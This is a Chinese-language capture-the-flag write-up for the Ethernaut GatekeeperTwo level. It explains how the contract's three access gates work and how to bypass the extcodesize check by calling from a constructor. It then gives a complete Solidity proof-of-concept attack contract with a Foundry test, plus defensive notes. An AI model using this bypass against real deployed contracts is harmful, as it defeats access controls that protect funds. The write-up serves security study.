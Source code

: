# 14. GateKeeperTwo

## 攻击分析
- ctf网址：https://ethernaut.openzeppelin.com/level/0x0C791D1923c738AC8c4ACFD0A60382eE5FF08a23
- 攻击类型：访问权限控制
- 目标：进入合约，将 entrant 更改成 deployer
- 要求：满足三个 modifier 条件

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract GatekeeperTwo {

  address public entrant;

  modifier gateOne() {
    require(msg.sender != tx.origin);
    _;
  }

  modifier gateTwo() {
    uint x;
    assembly { x := extcodesize(caller()) }
    require(x == 0);
    _;
  }

  modifier gateThree(bytes8 _gateKey) {
    require(uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) == type(uint64).max);
    _;
  }

  function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
    entrant = tx.origin;
    return true;
  }
}
```

这个与 [GateKeeperOne](https://github.com/Chocolatieee0929/ContractSafetyStudy/blob/main/ethernaut/solution/13.GateKeeperOne.md) 类似，第二、三个 modifier不同。

2. gateTwo

在以太坊中，地址可以是外部用户地址（Externally Owned Accounts，缩写EOA），也可以是合约地址。有时候需要区分这两种地址，或者限制其他合约地址进行跨合约调用，以防止发生黑客攻击。
之前，通常使用 EVM 指令 extcodesize 来获取指定地址关联的合约代码的长度。如果返回的长度大于0，则表示该地址是一个合约地址；如果返回的长度为0，则表示该地址是一个外部用户地址，依此判断地址的类型，并采取相应的安全措施。

`assembly { x := extcodesize(caller()) }`中x解析出的是合约的代码长度，而caller()返回的是调用者的地址，x == 0 表示期望调用者不是合约，是EOA账户，这个要求与gateOne是相悖的，那么我们应该怎么做呢？

通过对`extcodesize`的学习，了解到通过合约constructor的调用来避开`extcodesize`的检查，我写了篇学习文章[《EVM 指令 extcodesize 学习》](https://github.com/Chocolatieee0929/ContractSafetyStudy/Security/BypassingExternalEOACheck.md)

3. gateThree
根据[SolidityBitwise](https://docs.soliditylang.org/en/v0.8.24/cheatsheet.html#order-of-precedence-of-operators) 可知 ^ 优先于相等运算符。要求传入的参数与 msg.sender 的哈希值进行异或运算，然后与 type(uint64).max 进行比较, `uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) `这个很容易得到，对于GateKeeperTwo合约来说来说，msg.sender就是攻击合约的地址，那么我们需要考虑如何通过type(uint64).max 来反推_gateKey的值。

[^ Bitwise XOR](https://zh.wikipedia.org/wiki/%E5%BC%82%E6%88%96%E9%97%A8)可知，a ^ b = c, 即 a^c = b.
`bytes8 gateKey = bytes8(uint64(bytes8(keccak256(abi.encodePacked(this)))) ^ type(uint64).max)` 解除gateKey

## Proof of Concept

根据以上分析，完整的 PoC 代码如下：
```
interface IGatekeeperTwo {
    function enter(bytes8 _gateKey) external returns (bool);
}

contract Solution {
    address contractAddress;

    constructor(address _contractAddress) {
      contractAddress = _contractAddress;
      unchecked{
          bytes8 key = bytes8(uint64(bytes8(keccak256(abi.encodePacked(this)))) ^ type(uint64).max);
          IGatekeeperTwo(contractAddress).enter(key);
      }
    }
}

contract GatekeeperTwoTest is BaseTest {

    Solution public solution;

    function setUp() public override {
        super.setUp();
        gatekeeperTwo = GatekeeperTwo(contractAddress);
    }

    function test_Attack() public {
        vm.startBroadcast(deployer);
        solution = new Solution(contractAddress);
        address entrant = address(uint160(uint256(vm.load(contractAddress,bytes32(uint256(0))))));
        assertEq(entrant, deployer);
        vm.stopBroadcast();
    }
}
```

## 防御措施

- 通过检查 extcodesize 可以确定地址是否为合约，这存在明显漏洞，如果 extcodesize > 0，则该地址为合约；但 extcodesize = 0，则该地址可能为 EOA，也可能是正在创建状态的合约。
- 如果想要检测调用者是否为合约，可以通过 (tx.origin == msg.sender) 来进行判断。当调用者为 EOA 时，tx.origin 和 msg.sender 相等；当它们不相等时，调用者为合约。
```solidity
Copy code
function isContract(address account) public view returns (bool) {
    return (tx.origin != msg.sender);
}
```
- 真实攻击案例，[Fei Protocol Flashloan Vulnerability(May 14, 2021)](https://medium.com/immunefi/fei-protocol-flashloan-vulnerability-postmortem-7c5dc001affb)